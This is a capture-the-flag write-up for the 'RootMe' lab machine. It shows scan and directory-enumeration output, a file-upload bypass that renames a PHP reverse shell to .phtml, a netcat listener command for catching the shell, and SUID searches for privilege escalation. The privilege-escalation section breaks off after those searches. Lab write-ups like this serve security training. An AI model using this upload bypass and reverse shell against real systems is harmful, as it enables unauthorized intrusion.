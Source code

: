 # RootMe

IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
dirsearch:
```
[22:18:58] 403 -   275B - /.php
[22:19:21] 301 -   306B - /css  ->  http://10.10.88.7/css/
[22:19:28] 200 -   616B - /index.php
[22:19:28] 200 -   616B - /index.php/login/
[22:19:30] 200 -   956B - /js/
[22:19:30] 301 -   305B - /js  ->  http://10.10.88.7/js/
[22:19:38] 301 -   308B - /panel  ->  http://10.10.88.7/panel/
[22:19:38] 200 -   732B - /panel/
[22:19:44] 403 -   275B - /server-status
[22:19:44] 403 -   275B - /server-status/
[22:19:50] 301 -   310B - /uploads  ->  http://10.10.88.7/uploads/
[22:19:50] 200 -   741B - /uploads/
```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Tested website uploads and found out it allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The file is renamed to .phtml to bypass upload restrictions on .php files, allowing us to upload and execute the PHP reverse shell.
![image](https://github.com/user-attachments/assets/b0e1c037-170e-4015-8f3b-68fd40c1035e)

- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file to achieve the reverse shell.

## Post-Exploit
- To find user.txt - ``` find / -iname “user.txt” 2>/dev/null ```


![image](https://github.com/user-attachments/assets/88ea8174-23d7-4b2c-8e80-95ead92d3539)


# Priviledge Escalation
Found interesting file with SUID permissions that will allow priviledge escalation by typing - ``` find / -user root -perm -4000 2>/dev/null ```

https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html

![image](https://github.com/user-attachments/assets/40b3717f-6816-4dac-8153-f76aa1866927)


https://hacking-capture.github.io/root-me/
Finding user with different priviledges -``` find / -user root -perm -4000 2>/dev/null ```

